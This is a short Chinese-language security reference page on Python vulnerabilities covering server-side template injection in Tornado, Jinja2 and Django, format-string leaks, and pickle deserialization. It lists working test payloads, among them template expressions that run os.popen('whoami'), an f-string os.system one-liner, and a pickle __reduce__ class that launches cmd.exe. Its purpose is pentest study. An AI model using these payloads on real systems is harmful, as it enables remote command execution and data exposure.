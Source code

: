 Python漏洞
================================

模版注入
--------------------------------

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法：

- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试例子

- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[2].__subclasses__()}}``
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标：

- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权


格式化字符串
--------------------------------


``"welcome {user}".format(user=user)``
``user = {0.__class__.__init__.__globals__}``

python3 -c "f'''{__import__('os').system('id')}'''"

反序列化
--------------------------------

pickle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    >>> class A(object):
    ...     a = 1
    ...     b = 2
    ...     def __reduce__(self):
    ...         return (subprocess.Popen, (('cmd.exe',),))
    ...
    >>> cPickle.dumps(A())
    "csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n."

PyYAML反序列化
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


参考链接
--------------------------------
https://zhuanlan.zhihu.com/p/28823933
http://www.91ri.org/9576.html